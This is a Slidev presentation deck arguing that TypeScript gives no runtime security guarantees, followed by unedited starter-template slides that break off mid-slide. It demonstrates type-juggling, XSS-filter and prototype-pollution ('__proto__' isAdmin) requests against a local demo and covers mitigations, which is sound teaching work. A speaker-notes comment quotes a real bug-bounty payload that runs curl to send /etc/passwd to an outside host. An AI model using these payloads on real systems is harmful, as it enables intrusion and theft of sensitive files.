---
# You can also start simply with 'default'
theme: seriph
# random image from a curated Unsplash collection by Anthony
# like them? see https://unsplash.com/collections/94734566/slidev
background: https://cover.sli.dev
# some information about your slides (markdown enabled)
title: Welcome to Slidev
info: |
  ## Slidev Starter Template
  Presentation slides for developers.

  Learn more at [Sli.dev](https://sli.dev)
# apply unocss classes to the current slide
class: text-center
# https://sli.dev/features/drawing
drawings:
  persist: false
# slide transition: https://sli.dev/guide/animations.html#slide-transitions
transition: slide-left
# enable MDC Syntax: https://sli.dev/features/mdc
mdc: true
---

# Welcome to Slidev

Presentation slides for developers

<div @click="$slidev.nav.next" class="mt-12 py-1" hover:bg="white op-10">
  Press Space for next page <carbon:arrow-right />
</div>

<div class="abs-br m-6 text-xl">
  <button @click="$slidev.nav.openInEditor" title="Open in Editor" class="slidev-icon-btn">
    <carbon:edit />
  </button>
  <a href="https://github.com/slidevjs/slidev" target="_blank" class="slidev-icon-btn">
    <carbon:logo-github />
  </a>
</div>

<!--
The last comment block of each slide will be treated as slide notes. It will be visible and editable in Presenter Mode along with the slide. [Read more in the docs](https://sli.dev/guide/syntax.html#notes)
-->

---

# How PHP handle type conversion 🙄

also known as "the silliness table"



<!--
source: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md
-->

---

# JavaScript Quirks 😆

{width=60%}

---

# TypeScript is sooooo good

- Code quality
- Find bugs faster
- Lower unit test count
- Minimize security vulnerabilities
- Avoid type confusion in runtime <v-click>(wait, what 😮 ???)</v-click>

<!--
1. Code quality - TypeScript helps you think about the function signature, the returned value and so on
2. Find bugs faster - TypeScript can run as fast as you code, no need to wait for tests to run in CI
3. Lower unit test count - TypeScript can catch a lot of bugs that you would have to write tests for
4. Minimize security vulnerabilities - TypeScript can catch a lot of security vulnerabilities because it can minimize the "unexpected behavior" part of your code (DOES IT??? 😮)
5. Avoid type confusion in runtime - TypeScript can catch a lot of type confusion bugs that would happen in runtime (REALLY??? 😮)
-->

---


- What do you think about this TypeScript code?
- Does this live up to your type safety expectations?

<div class="mt-12">
</div>

```ts {*}{lines:true}
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: string = _req.query.filter as string || '';
    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
}
```

<!--
  - Looks ok
  - We're typing the query parameter 'filter' as string
  - if we run `npx tsc` this will pass
-->

---

# Just an error...



<!--
  What can you make up from this error log?
-->

---
layout: two-cols
layoutClass: gap-16
---
# Look at this silly vulnerability

Can you spot the issue?

```js
  dust.escapeHtml = function(s) {
    if (typeof s === 'string') {
      if (!HCHARS.test(s)) {
        return s;
      }
      return s.replace(AMP,'&amp;')
        .replace(LT,'&lt;')
        .replace(GT,'&gt;')
        .replace(QUOT,'&quot;')
        .replace(SQUOT, '&#39;');
    }
    return s;
  };
```

::right::

<div class="mt-32">
</div>

<v-click>

  - Found in `dustjs-linkedin`
  - Downloaded 100,000 / month
  - Let's appreciate that this was found as a blackbox test

  

</v-click>

---

# A "silly vulnerability" that paid $10k in bug bounty

That's $10,000 for a string of text ;-)


<!-- can finish the presentation with the string payload to keep the dramatic effect:
https://_demo.paypal.com/demo/navigation?device[]=x&device[]=y'-require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+artsploit.com')-'
-->

---
layout: quote
---

<div grid="~ cols-2 gap-4">

<div>
  <div v-click="1">

# No, it wouldn't...
  </div>

<div v-click="3">

# No, it... wouldn't...
  </div>
</div>

<div>
<div v-click="2">

# Yes it would
</div>
<div v-click="4">

# Yes yes it would! just use TypeScript!!
</div>
</div>

</div>

---

# HTTP Parameter Pollution

<!--
 ok so before we dive into whether typing the request would work or not
 let's explain dustjs the vulnerability in topic 

 what is parameter pollution 
 
 -->

---

# So how do we do Express + TypeScript ?

The premise: all you need is TypeScript. If you type everything, you're safe. TypeScript param types will be catching these.

<v-switch>
  <template #1>

  {width=90%}

  </template>

  <template #2>

  Security promises:
  - Types are enforced at development time and through-out the code
  - "TypeScript CI failures prevent production deploys with errors"

  </template>

</v-switch>

---
layout: quote
---

<v-switch>
  <template #0>

# "TypeScript does not give any security guarantees. It's a tool to help you write better code, but it's not a security tool."

-TypeScript Security Fallacies

  </template>

  <template #1>

# "TypeScript developers put misplaced trust in types in the same way that developers put misplaced trust in code coverage."

-TypeScript Security Fallacies

  </template>

</v-switch>

---

# TypeScript Security Bypass #1

Express + TypeScript

Start with a route definition:

```ts {all}
app.get("/users", userController.getUsers);
```

<v-click>

Then the repository layer:

```ts {all|2}
export class UserRepository {
  async findAllAsync({ filter }: { filter?: string } = {}): Promise<User[]> {
    if (filter) {
      return users.filter((user) => user.name.startsWith(filter));
    }

    return users;
  }
}
```

</v-click>

<!-- 
  We have a /users endpoint that serves as a REST API endpoint. It allows users to search for themselves and, in particular, to pass a filter string to match the user's name.
  The repository pattern that demonstrates how this filtering is done is as follows: It exposes a findAllAsync method that receives an object with a filter property.
-->

---

# TypeScript Security Bypass #1

To query the users, a GET HTTP request is sent:

```sh
$ curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter=Al"
```

<!--
  How does the filter query string flow from the route definition onto the repository layer? Let’s explore this pattern and how TypeScript is used there.
  The HTTP route definition is as follows, defining the controller code for the / route at the /users prefix and matches all the HTTP requests for the GET verb:
-->

---

# TypeScript Security Bypass #1

The controller layer:

```ts
import type { Request, RequestHandler, Response } from "express";

import { userService } from "@/api/user/userService";
import { handleServiceResponse } from "@/common/utils/httpHandlers";

class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: any = _req.query.filter || '';
    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
}
```

---

# TypeScript Security Bypass #1

Sending a request with a filter query string to the `/users` endpoint with value of `Al` returns results, **as expected**.

No surprises here.

```sh
$ curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter=Al"

{
  "success": true,
  "message": "Users found",
  "responseObject": [
    {
      "id": 1,
      "name": "Alice",
      "email": "alice@example.com",
      "age": 42,
      "createdAt": "2025-01-13T10:51:37.118Z",
      "updatedAt": "2025-01-18T10:51:37.118Z"
    }
  ],
  "statusCode": 200
}
```

---

# TypeScript Security Bypass #1

What if applied a type juggling attempt that changes the filter query string to an array?

Now, the `filter` query string uses the array convention `filter[]=Al`, yet we get the same results...? 🤔

```sh
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=Al"

{
  "success": true,
  "message": "Users found",
  "responseObject": [
    {
      "id": 1,
      "name": "Alice",
      "email": "alice@example.com",
      "age": 42,
      "createdAt": "2025-01-13T10:51:37.118Z",
      "updatedAt": "2025-01-18T10:51:37.118Z"
    }
  ],
  "statusCode": 200
}
```

<!--
  So what's happening here?
-->

---

# TypeScript Security Bypass #1

This works as before because JavaScript converts the array to its `toString` definition.

```ts
const filterQuery: any = _req.query.filter || '';
const serviceResponse = await userService.findAll({ filter: filterQuery });
```

<!--
  But, no surprise here either because some of you TypeScript zealots might have caught up on the horrendous TypeScript definition for `any`
-->

# TypeScript Security Bypass #1

Let's do better!

---

# TypeScript Security Bypass #2

- Let's drop the use of `any`
- Let's use TypeScript to define the query parameter as a string

```ts
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {

    // we now define query as string
    const filterQuery: string = _req.query.filter as string || '';

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

<!--
  We will avoid using the special any TypeScript wildcard for types and instead strictly and explicitly define the filter variable as a string type.
-->

---

# TypeScript Security Bypass #2

To ensure that we're keeping up with TypeScript's type safety and everything compiles correctly, we run:

```sh
$ npx tsc
```

---

# TypeScript Security Bypass #2

Now surely *type juggling* won't work, right?

Let's test this theory!

```sh
$ curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=Al"

{
  "success": true,
  "message": "Users found",
  "responseObject": [
    {
      "id": 1,
      "name": "Alice",
      "email": "alice@example.com",
      "age": 42,
      "createdAt": "2025-01-13T10:51:37.118Z",
      "updatedAt": "2025-01-18T10:51:37.118Z"
    }
  ],
  "statusCode": 200
}
```

---

# A Reflection on Typing Practices

```ts
// ❌
const filterQuery: any = _req.query.filter

// ❌
const filterQuery: string = _req.query.filter as string || '';
```

Them:
> Oh no, don't do that! 
> You are lying to TypeScript

Me:
> Hmmm, ok... I guess... ?

---

# A Reflection on Typing Practices




# A Reflection on Typing Practices




---

# TypeScript for a Secure React Server Component

> 🤔
> So maybe we need to declare the types as interfaces?

TypeScript expects to uphold the following generic:

```ts
(alias) interface Request<P = core.ParamsDictionary, ResBody = any, ReqBody = any, ReqQuery = qs.ParsedQs, Locals extends Record<string, any> = Record<string, any>>
import Request
```

<!--
  We'll follow a more conventional typing strategy instead of forcing TypeScript with an any or as string type declaration. We will define the interface for the expected query string schema and apply it to the Request object type.
-->

---

# TypeScript for a Secure React Server Component

Let's build our own poor-man's React Server Components... 🎉

```ts
interface UserComponentQueryString {
  name?: string;
}

class UserController {

  public getUserHelloComponent: RequestHandler = async (
    _req: Request<{}, {}, {}, UserComponentQueryString>,
     res: Response) => {

      const userName = _req.query.name || "World";

      const helloComponent = `<h1>Hello, ${userName}!</h1>`;
      return res.send(helloComponent);
    }
}
```

<!--
  Of course what's missing here is........... security sanitization!
-->

---

# TypeScript for a Secure React Server Component

```ts
public getUserHelloComponent: RequestHandler = async (
    _req: Request<{}, {}, {}, UserComponentQueryString>,
     res: Response) => {

      const userName = _req.query.name || "World";

      // highlight ----->
      if (!sanitizeXSS(userName)) {
        return res.status(400).send("Bad input detected!");
      }
      // <----------

      const helloComponent = `<h1>Hello, ${userName}!</h1>`;
      return res.send(helloComponent);
    }
```

Implementation of `sanitizeXSS`:

```ts
function sanitizeXSS(name: string): boolean {
  const disallowList = ["<", ">", "&", '"', "'", "/", "="];

  return !disallowList.some((badInput) => name.includes(badInput));
}
```

Now everything is typed and our interfaces are set!

---

# TypeScript for a Secure React Server Component

Does TypeScript save the day?

```sh
$ curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name="           

<h1>Hello, !</h1>
```

Congrats, you're a hacker!

---

# TypeScript Pitfalls

- ❌ Some libraries are simply not typed
- ❌ Some libraries are typed but are just wrongly typed
- ❌ Some libraries are typed. With "any". Goodluck 🙏
- ❌ Do not use the `any` TypeScript wildcard
- ❌ TypeScript is "development-time" confidence, not "runtime" security
- ❌ Do not rely on TypeScript alone for Type security

<!--
 Last bullet, emphasize: TypeScript is to be thought of as "defense in depth", adding a layer for better
 code quality and type safety, but it isn't a security tool in itself and doesn't make any runtime guarantees.
-->

---

# How to spice up TypeScript for security? #1

- ✅ Follow the "TypeScript Narrowing" pattern

```ts
if (typeof filterQuery !== "string") {
  return res.status(400).send("Bad input detected!");
}
```

- 👎 Con: you need to remember adding these type guards all the time
- 👎 Con: your codebase might feel more "dirty" with all these type checks
- 👎 Con: not all type guards are created equal (e.g: typeof `null` is... `object 😅)

# How to spice up TypeScript for security? #2

- ✅ Use a strict schema for runtime security

```ts
import { z } from "zod";

app.get("/users", (req, res) => {

  const querySchema = z.object({
    filter: z.string().optional(),
  });

  const validatedQuery = querySchema.parse(req.query);

});
```

---

# Can we bypass both TypeScript **AND** Zod 😍 ???

---

# Use-Case: User Notifications Setting

> [narrated in the voice of your product manager]
>
> As a user,
> I want to be able to set a single notification preference,
> so that I can control the notifications I receive.

Let's define the route:

```ts
userRouter.put("/:id/settings/notifications", userController.setUserNotificationSetting);
```

<!--
  Let's expand on a real world and quite typical use-case
-->

---

# Use-Case: User Notifications Setting

Request to be handled sends a JSON object as follows:

```json
PUT /users/123/settings/notifications
{
  "notificationType": "email",
  "notificationMode": "daily",
  "notificationModeValue": "disabled"
}
```

And the controller handler as follows:

```ts
  public setUserNotificationSetting: RequestHandler = async (req: Request, res: Response) => {

    const userId: string = req.params.id;
    const notificationType: NotificationType = req.body.notificationType;
    const notificationMode: string = req.body.notificationMode;
    const notificationModeValue: string | boolean = req.body.notificationModeValue;

    await userService.setUserNotificationSetting(userId, notificationType, notificationMode, notificationModeValue);
    return res.status(201).send("User notification setting updated successfully");
  }
```

✅ Typed at dev-time with TypeScript
✅ Typed at runtime with with Zod

---

# Use-Case: User Notifications Setting

What security vulnerability did we not account for? 🤔

---

# Use-Case: User Notifications Setting

Attacker send the following request:

```sh
$ curl -X PUT -H 'Content-Type: application/json' \
    http://localhost:8080/users/1/settings/notifications \
    -d '{ \
          "notificationType": "__proto__", \
          "notificationMode": "isAdmin",   \
          "notificationModeValue": true    \
    }'
```

---
transition: fade-out
---

# What is Slidev?

Slidev is a slides maker and presenter designed for developers, consist of the following features

- 📝 **Text-based** - focus on the content with Markdown, and then style them later
- 🎨 **Themable** - themes can be shared and re-used as npm packages
- 🧑‍💻 **Developer Friendly** - code highlighting, live coding with autocompletion
- 🤹 **Interactive** - embed Vue components to enhance your expressions
- 🎥 **Recording** - built-in recording and camera view
- 📤 **Portable** - export to PDF, PPTX, PNGs, or even a hostable SPA
- 🛠 **Hackable** - virtually anything that's possible on a webpage is possible in Slidev
<br>
<br>

Read more about [Why Slidev?](https://sli.dev/guide/why)

<!--
You can have `style` tag in markdown to override the style for the current page.
Learn more: https://sli.dev/features/slide-scope-style
-->

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

<!--
Here is another comment.
-->

---
transition: slide-up
level: 2
---

# Navigation

Hover on the bottom-left corner to see the navigation's controls panel, [learn more](https://sli.dev/guide/ui#navigation-bar)

## Keyboard Shortcuts

|                                                     |                             |
| --------------------------------------------------- | --------------------------- |
| <kbd>right</kbd> / <kbd>space</kbd>                 | next animation or slide     |
| <kbd>left</kbd>  / <kbd>shift</kbd><kbd>space</kbd> | previous animation or slide |
| <kbd>up</kbd>                                       | previous slide              |
| <kbd>down</kbd>                                     | next slide                  |

<!-- https://sli.dev/guide/animations.html#click-animation -->

<p v-after class="absolute bottom-23 left-45 opacity-30 transform -rotate-10">Here!</p>

---
layout: two-cols
layoutClass: gap-16
---

# Table of contents

You can use the `Toc` component to generate a table of contents for your slides:

```html
<Toc minDepth="1" maxDepth="1" />
```

The title will be inferred from your slide content, or you can override it with `title` and `level` in your frontmatter.

::right::

<Toc text-sm minDepth="1" maxDepth="2" />

---
layout: image-right
image: https://cover.sli.dev
---

# Code

Use code snippets and get the highlighting directly, and even types hover!

```ts {all|5|7|7-8|10|all} twoslash
// TwoSlash enables TypeScript hover information
// and errors in markdown code blocks
// More at https://shiki.style/packages/twoslash

import { computed, ref } from 'vue'

const count = ref(0)
const doubled = computed(() => count.value * 2)

doubled.value = 2
```

<arrow v-click="[4, 5]" x1="350" y1="310" x2="195" y2="334" color="#953" width="2" arrowSize="1" />

<!-- This allow you to embed external code blocks -->
<<< @/snippets/external.ts#snippet

<!-- Footer -->

[Learn more](https://sli.dev/features/line-highlighting)

<!-- Inline style -->
<style>
.footnotes-sep {
  @apply mt-5 opacity-10;
}
.footnotes {
  @apply text-sm opacity-75;
}
.footnote-backref {
  display: none;
}
</style>

<!--
Notes can also sync with clicks

[click] This will be highlighted after the first click

[click] Highlighted with `count = ref(0)`

[click:3] Last click (skip two clicks)
-->

---
level: 2
---

# Shiki Magic Move

Powered by [shiki-magic-move](https://shiki-magic-move.netlify.app/), Slidev supports animations across multiple code snippets.

Add multiple code blocks and wrap them with <code>````md magic-move</code> (four backticks) to enable the magic move. For example:

````md magic-move {lines: true}
```ts {*|2|*}
// step 1
const author = reactive({
  name: 'John Doe',
  books: [
    'Vue 2 - Advanced Guide',
    'Vue 3 - Basic Guide',
    'Vue 4 - The Mystery'
  ]
})
```

```ts {*|1-2|3-4|3-4,8}
// step 2
export default {
  data() {
    return {
      author: {
        name: 'John Doe',
        books: [
          'Vue 2 - Advanced Guide',
          'Vue 3 - Basic Guide',
          'Vue 4 - The Mystery'
        ]
      }
    }
  }
}
```

```ts
// step 3
export default {
  data: () => ({
    author: {
      name: 'John Doe',
      books: [
        'Vue 2 - Advanced Guide',
        'Vue 3 - Basic Guide',
        'Vue 4 - The Mystery'
      ]
    }
  })
}
```

Non-code blocks are ignored.

```vue
<!-- step 4 -->
<script setup>
const author = {
  name: 'John Doe',
  books: [
    'Vue 2 - Advanced Guide',
    'Vue 3 - Basic Guide',
    'Vue 4 - The Mystery'
  ]
}
</script>
```
````

---

# Components

<div grid="~ cols-2 gap-4">
<div>

You can use Vue components directly inside your slides.

We have provided a few built-in components like `<Tweet/>` and `<Youtube/>` that you can use directly. And adding your custom components is also super easy.

```html
<Counter :count="10" />
```

<!-- ./components/Counter.vue -->
<Counter :count="10" m="t-4" />

Check out [the guides](https://sli.dev/builtin/components.html) for more.

</div>
<div>

```html
<Tweet id="1390115482657726468" />
```

<Tweet id="1390115482657726468" scale="0.65" />

</div>
</div>

<!--
Presenter note with **bold**, *italic*, and ~~striked~~ text.

Also, HTML elements are valid:
<div class="flex w-full">
  <span style="flex-grow: 1;">Left content</span>
  <span>Right content</span>
</div>
-->

---
class: px-20
---

# Themes

Slidev comes with powerful theming support. Themes can provide styles, layouts, components, or even configurations for tools. Switching between themes by just **one edit** in your frontmatter:

<div grid="~ cols-2 gap-2" m="t-2">

```yaml
---
theme: default
---
```

```yaml
---
theme: seriph
---
```


</div>

Read more about [How to use a theme](https://sli.dev/guide/theme-addon#use-theme) and
check out the [Awesome Themes Gallery](https://sli.dev/resources/theme-gallery).

---

# Clicks Animations

You can add `v-click` to elements to add a click animation.

<div v-click>

This shows up when you click the slide:

```html
<div v-click>This shows up when you click the slide.</div>
```

</div>

<br>

<v-click>

The <span v-mark.red="3"><code>v-mark</code> directive</span>
also allows you to add
<span v-mark.circle.orange="4">inline marks</span>
, powered by [Rough Notation](https://roughnotation.com/):

```html
<span v-mark.underline.orange>inline markers</span>
```

</v-click>

<div mt-20 v-click>

[Learn more](https://sli.dev/guide/animations#click-animation)

</div>

---

# Motions

Motion animations are powered by [@vueuse/motion](https://motion.vueuse.org/), triggered by `v-motion` directive.

```html
<div
  v-motion
  :initial="{ x: -80 }"
  :enter="{ x: 0 }"
  :click-3="{ x: 80 }"
  :leave="{ x: 1000 }"
>
  Slidev
</div>
```

<div class="w-60 relative">
  <div class="relative w-40 h-40">
    
    
    
  </div>

  <div
    class="text-5xl absolute top-14 left-40 text-[#2B90B6] -z-1"
    v-motion
    :initial="{ x: -80, opacity: 0}"
    :enter="{ x: 0, opacity: 1, transition: { delay: 2000, duration: 1000 } }">
    Slidev
  </div>
</div>

<!-- vue script setup scripts can be directly used in markdown, and will only affects current page -->
<script setup lang="ts">
const final = {
  x: 0,
  y: 0,
  rotate: 0,
  scale: 1,
  transition: {
    type: 'spring',
    damping: 10,
    stiffness: 20,
    mass: 2
  }
}
</script>

<div
  v-motion
  :initial="{ x:35, y: 30, opacity: 0}"
  :enter="{ y: 0, opacity: 1, transition: { delay: 3500 } }">

[Learn more](https://sli.dev/guide/animations.html#motion)

</div>

---

# LaTeX

LaTeX is supported out-of-box. Powered by [KaTeX](https://katex.org/).

<div h-3 />

Inline $\sqrt{3x-1}+(1+x)^2$

Block
$$ {1|3|all}
\begin{aligned}
\nabla \cdot \vec{E} &= \frac{\rho}{\varepsilon_0} \\
\nabla \cdot \vec{B} &= 0 \\
\nabla \times \vec{E} &= -\frac{\partial\vec{B}}{\partial t} \\
\nabla \times \vec{B} &= \mu_0\vec{J} + \mu_0\varepsilon_0\frac{\partial\vec{E}}{\partial t}
\end{aligned}
$$

[Learn more](https://sli.dev/features/latex)

---

# Diagrams

You can create diagrams / graphs from textual descriptions, directly in your Markdown.

<div class="grid grid-cols-4 gap-5 pt-4 -mb-6">

